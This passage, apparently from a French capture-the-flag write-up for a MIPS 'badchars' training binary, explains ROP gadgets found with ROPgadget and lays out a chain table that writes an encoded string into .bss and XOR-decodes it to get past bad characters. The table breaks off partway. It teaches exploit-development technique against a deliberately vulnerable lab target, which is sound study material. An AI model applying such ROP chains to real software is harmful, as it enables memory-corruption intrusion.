 La plus intéressant est le suivant qui permet le chargement des registres et l'ecriture en memoire :

    0x00400930 : lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; sw $t1, ($t0) ; jalr $t9 ; addi $sp, $sp, 0x10



Recherche d'un gadget effectuant un xor.

On trouve.

    0x00400948 : lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; lw $t2, ($t1) ; xor $t0, $t0, $t2 ; sw $t0, ($t1) ; jalr $t9 ; addi $sp, $sp, 0x10

- lw t9, 0xc(sp)  Charge t9 en vue du jump à la fin
- lw t0, 8(sp)    Charge t0 depuis la pile pour le xor
- lw t1, 4(sp)    Charge t1 avec une adresse du la pile
- lw t2, (t1)     Charge dans t2 le contenur de cette adrress
- xor t0, t0, t2  Effectue le xor entre les deux
- sw t0, (t1)     Sauve le resultat a la même adresse
- jalr t9         Appelle l'adress chagée dans t9 au départ
- addi sp, sp, 0x10 Fixe la valeur de la pile.


Pour appeller la fonction avec un argument.

    # ROPgadget --binary badchars_mipsel --depth 4| grep "lw \$a0"
    0x00400964 : addi $sp, $sp, 0x10 ; lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; addi $sp, $sp, 0xc
    0x00400968 : lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; addi $sp, $sp, 0xc

On retient 0x00400968.

- lw a0, 8(sp)          Charge a0 avec l'adresse en argument
- lw t9, 4(sp)          Charge l'adresse cible
- jalr t9               Effecue l'appel
- addi sp, sp, 0xc      Ajuste la pile au moment du call.

### La chaine de ROP.


| ROP entry | gadget | comment |
| ----------- | ------- | ----- |
| ---------- | Ecriture de "flbd" dans .bss|
| 0x00400930 | lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; sw $t1, ($t0) ; jalr $t9 ; addi $sp, $sp, 0x10 |
| 0xdeadbeef | | junk |
| 0x67626c66 | 'flbd' | pour `t1
| 0x00001070 | @.bss | pour `t0`
| 0x00400930 | lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; sw $t1, ($t0) ; jalr $t9 ; addi $sp, $sp, 0x10  | Pour `t9` en vue d'ecrire la seconde partie
| ---------- | Ecriture de "-t{t"" dans .bss+4
| 0xdeadbeef | | junk |
| 0x747b742d | '-t{t' | pour `t1`
| 0x00001074 | @.bss+4 | pour `t0`
| 0x00400948 | lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; lw $t2, ($t1) ; xor $t0, $t0, $t2 ; sw $t0, ($t1) ; jalr $t9 ; addi $sp, $sp, 0x10 | Pour `t9`
| ---------- | Sequence de xor
|---------- | bss[2]=bss[2]^3
| 0xdeadbeef | | junk |
| 0x00001072 | @.bss+2 | pour `t1`
| 3 | 3 | pour `t0`
| 0x00400948 | lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; lw $t2, ($t1) ; xor $t0, $t0, $t2 ; sw $t0, ($t1) ; jalr $t9 ; addi $sp, $sp, 0x10 | Pour `t9`
| ---------- | bss[3]=bss[3]^3